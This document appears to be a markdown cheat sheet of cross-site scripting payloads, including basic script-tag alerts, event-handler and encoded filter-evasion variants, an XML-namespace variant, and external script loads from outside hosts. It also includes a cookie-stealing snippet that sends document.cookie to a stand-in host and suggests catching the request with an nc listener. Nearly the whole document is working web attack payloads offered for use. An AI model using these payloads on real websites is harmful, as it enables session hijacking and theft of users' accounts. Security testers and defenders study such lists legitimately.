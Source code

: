 # XSS (CROSS SITE SCRIPTING)

Quick Payloads
--------------
```
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(123123)</script>
<script>alert(document.cookie)</script>
<svg onload=alert(1)>
"/><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==
"/><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
```

iframe: `<iframe src="http://www.cnn.com" height = "0" width = "0"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`  
Reflected (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`  
Stealing cookies:  
```
<script>
new Image().src="http://0.0.0.0/bogus.php?output="+document.cookie;
</script>

You can see the browser's request by setting up nc listener on port 80.
```

```
<body background="javascript:alert('running in background');">
<iframe src="javascript:alert('Hello');“/>
<input type=image src="&#74;avascript:alert('Have You')">
<img src='iamnothere.gif' onError=”alert('EventHandler')">
<frameset onLoad="alert('EventHandler')">
<layer name="extern" src="http://evil.com/test.html">
```

* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```

Other:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

XSS and XML
-----------
```
<html:html xmlns:html='http://www.w3.org/1999/xhtml'>
  <html:script>
      alert(document.cookie);
  </html:script>
</html:html>
```

Misc
----

* [JSFuck](http://www.jsfuck.com/) - Javascript with six characters
* [XSS Payloads](http://www.xss-payloads.com/) - a variety of XSS payloads

Resources
---------

* [Cross-Site Scripting (XSS)](http://phpsecurity.readthedocs.io/en/latest/Cross-Site-Scripting-(XSS).html)
